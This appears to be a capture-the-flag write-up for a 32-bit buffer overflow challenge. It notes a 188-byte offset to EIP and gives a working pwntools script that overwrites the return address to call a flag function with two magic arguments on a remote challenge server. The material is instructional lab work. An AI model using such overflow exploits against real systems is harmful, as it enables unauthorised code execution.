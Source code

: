 ![alt text](https://i.imgur.com/Xr16qc7.png)


## Bufferoverflow
- 188 bytes until EIP control


---

# Vuln Function
![alt text](https://i.imgur.com/mKttOHO.png)


# Flag Function
![alt text](https://i.imgur.com/1g7Pk9x.png)

```
- flag(int param_1, int param_2)
	- cdecl is the calling convention
```

![alt text](https://i.imgur.com/HLCtmkd.png)

# Vuln function
![alt text](https://i.imgur.com/nSL5IJ7.png)



# Exploit Development 
```python
from pwn import *


context.binary = ELF("./vuln", checksec=True)
#p = process()
p = remote("178.128.46.251", 30138)

# flag addr: 0x80491e2
# if ((param_1 == L'\xdeadbeef') && (param_2 == L'\xc0ded00d'))


payload = b"A"*188              # padding
payload += p32(0x080491e2)      # vuln function
payload += b"fooo"              # dumb addr / filler bytes for eip
payload += p32(0xdeadbeef) + p32(0xc0ded00d)

with open("payload.txt", "w") as file:
        file.write(str(payload))
        file.close()

p.sendline(payload)
print(p.recvall())
```

```
The calling convention of the function we call @ 0x080491e2 needs to be supplied in reverse order followed by an address that will populate the EIP register. In this case, this address will work as a returning address, without supplying one.
```
